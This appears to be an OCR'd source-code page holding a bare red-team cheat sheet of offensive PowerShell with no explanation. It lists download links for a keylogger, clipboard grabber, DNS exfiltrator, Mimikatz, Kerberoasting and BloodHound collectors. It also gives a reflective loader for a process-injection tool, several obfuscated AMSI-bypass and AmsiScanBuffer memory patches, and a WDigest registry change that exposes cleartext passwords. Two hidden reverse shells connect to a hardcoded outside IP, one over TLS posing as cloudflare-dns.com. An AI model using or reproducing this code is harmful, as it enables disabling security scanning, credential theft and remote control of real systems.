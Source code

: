 $base = gc -raw .\remote.txt
$b64 = [System.Convert]::FromBase64String($base)
[System.Reflection.Assembly]::Load($b64)
[CreateRemoteThread.Program]::Main(@())
[CreateRemoteThread.Program]::Main(@(8812))

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/create.txt
https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/nt.txt
https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/remote.txt
==============================================================================================================================

https://github.com/Arno0x/DNSExfiltrator/raw/refs/heads/master/release/dnsExfiltrator.exe

https://raw.githubusercontent.com/lazywinadmin/PowerShell/refs/heads/master/TOOL-Start-KeyLogger/Start-KeyLogger.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/key.txt

https://raw.githubusercontent.com/gangstanthony/PowerShell/refs/heads/master/Get-Clipboard.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/clip.txt

https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/kerb.txt

https://raw.githubusercontent.com/BloodHoundAD/BloodHound/refs/heads/master/Collectors/SharpHound.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/blood.txt

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/gpp.txt

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/catz.txt

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/Invoke-Mimikatz.ps1

https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/refs/heads/master/Inveigh.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/fake.txt

==============================================================================================================================

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

==============================================================================================================================

reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential

reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

==============================================================================================================================

$c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)

==============================================================================================================================

$x=51;$a=[Ref].Assembly;$y=$x*1000;$b=$a.GetTypes();$z=$y-32;$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like '*siUt*'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};};$x=$z;$e=$c.GetFields('NonPublic,Static');$y=$x-2;$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like '*siCo*'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};};$z=324;$h=$g.GetValue($null);$x=$y-2;[IntPtr]$i=$h;$z=$x+2;[Int32[]]$j=@(0);$y=$z;[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1);

==============================================================================================================================

powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"

==============================================================================================================================

$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = New-Object System.Byte[] 4096 ;$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

==============================================================================================================================

$x=51
$a=[Ref].Assembly
$y=$x*1000
$b=$a.GetTypes()
$z=$y-32
$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like 'siUt'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};}
$x=$z
$e=$c.GetFields('NonPublic,Static')
$y=$x-2
$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like 'siCo'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};}
$z=324
$h=$g.GetValue($null)
$x=$y-2
[IntPtr]$i=$h
$z=$x+2
[Int32[]]$j=@(0)
$y=$z
[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1)

